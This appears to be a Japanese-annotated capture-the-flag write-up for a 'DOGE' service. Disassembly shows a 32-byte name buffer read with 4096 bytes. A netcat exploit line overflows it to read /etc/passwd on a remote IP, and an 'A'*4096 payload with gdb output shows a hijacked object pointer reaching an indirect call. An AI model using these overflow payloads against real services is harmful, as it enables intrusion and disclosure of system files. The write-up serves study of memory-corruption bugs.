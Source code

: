     --------------------------------------------------------------------------------
    (犬の名前を読み込む処理)
        4d19:   48 8d 35 00 65 20 00    lea    rsi,[rip+0x206500]        # 20b220 <__pyx_v_4doge_namebuf>
        4d20:   89 df                   mov    edi,ebx
        4d22:   ba 00 10 00 00          mov    edx,0x1000  #<- !! バッファは32byteだけど4096byte読んでる
        4d27:   30 c0                   xor    al,al
        4d29:   e8 b2 e0 ff ff          call   2de0 <__read@plt>
    --------------------------------------------------------------------------------
     
    exploit:
    echo -n '12345678901234567890123456789012/etc/passwd\x00' | nc 88.198.89.218 1024
     
    DOGE2:
     
    犬の絵のパスのさらに後を上書きすると、read()呼び出しの後のPyObject_Callでクラッシ
    ュする。
    --------------------------------------------------------------------------------
    python -c "import sys;sys.stdout.write('A'*4096)" | nc localhost 1024
    --------------------------------------------------------------------------------
    --------------------------------------------------------------------------------
    Program received signal SIGSEGV, Segmentation fault.
    [Switching to Thread 0x7ffff7fc4740 (LWP 27554)]
    0x00000000004abf6d in PyObject_Call ()
    (gdb) disas
    Dump of assembler code for function PyObject_Call:
       0x00000000004abf60 <+0>:   push   rbp
       0x00000000004abf61 <+1>:   mov    rbp,rdi
       0x00000000004abf64 <+4>:   push   rbx
       0x00000000004abf65 <+5>:   sub    rsp,0x18
       0x00000000004abf69 <+9>:   mov    rax,QWORD PTR [rdi+0x8]      <- !!
    => 0x00000000004abf6d <+13>:   mov    rbx,QWORD PTR [rax+0x80] <- !!
       0x00000000004abf74 <+20>:  test   rbx,rbx
       0x00000000004abf77 <+23>:  je     0x4abfdc <PyObject_Call+124>
       0x00000000004abf79 <+25>:  mov    rcx,QWORD PTR [rip+0x401760]        # 0x8ad6e0 <_PyThreadState_Current>
       0x00000000004abf80 <+32>:  mov    edi,DWORD PTR [rcx+0x18]
       0x00000000004abf83 <+35>:  add    edi,0x1
       0x00000000004abf86 <+38>:  cmp    edi,DWORD PTR [rip+0x39f244]        # 0x84b1d0 <_Py_CheckRecursionLimit>
       0x00000000004abf8c <+44>:  mov    DWORD PTR [rcx+0x18],edi
       0x00000000004abf8f <+47>:  jg     0x4abfb8 <PyObject_Call+88>
       0x00000000004abf91 <+49>:  mov    rdi,rbp
       0x00000000004abf94 <+52>:  call   rbx      <- !!!!!!!!
     
    (gdb) p/x $rax
    $2 = 0x4141414141414141     <-'AAAAAAAA'
    (gdb) x/x $rdi
    0x7ffff6b18630 <__pyx_type_4doge_Doge>:   0x41414141
    (gdb) p/d $rdi - (unsigned long long)__pyx_v_4doge_namebuf 
    $7 = 1040
    --------------------------------------------------------------------------------
     